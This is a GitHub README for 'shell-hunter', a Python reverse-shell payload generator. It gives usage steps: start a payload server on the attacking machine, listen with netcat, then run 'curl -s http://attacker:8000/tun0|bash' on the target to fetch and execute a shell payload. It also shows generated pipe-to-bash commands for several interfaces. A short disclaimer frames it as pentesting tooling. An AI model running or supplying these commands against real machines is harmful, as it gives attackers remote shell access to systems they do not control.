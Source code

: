 # shell-hunter

> This is a Python version of https://github.com/lukechilds/reverse-shell with additional functionality (if you want to call it that).   
> All credit goes to lukechilds

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Start the generator

On your attacking machine, start the generator.  It will auto populate interfaces that have IP addresses and the `curl` command associated with it.  Not all interfaces in this output will be relevant and this is only useful if you use an interface name in the request.  

You can specify the http server listening port as well, otherwise it defaults to 8000.

```generator
usage: shell-hunter.py [-h] [-s SERVER] [-l LISTENER] [-i IPADDRESS] [-I INTERFACE]

Automatic payload generation

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Python http server listener
  -l LISTENER, --listener LISTENER
                        nc listener
  -i IPADDRESS, --ipaddress IPADDRESS
                        IP address
  -I INTERFACE, --interface INTERFACE
                        Interface name
```
This is the default output if no flags are provided.  This is only included as a template and the output will change depending on if you include an IP address.  Changing the IP address and/or port is still possible without restarting, but the `curl` template will not refresh.

```output
Shell generator started: 8000
curl -s http://127.0.0.1:8000/lo|bash
curl -s http://10.0.0.85:8000/eth0|bash
curl -s http://10.0.0.85:8000/tun0|bash
curl -s http://172.17.0.1:8000/docker0|bash
```
### 2. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -lvnp 1337
```
### 2. Execute reverse shell on target

On the target machine,

```shell examples
curl -s http://attacker:8000/tun0|bash
curl -s http://attacker:8000/IP:PORT|bash
```

Go back to your machine, you should now have a shell prompt.

### 3.  Disclaimer

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.  Obligatory "I'm not responsible for your actions and/or misuse of this code"
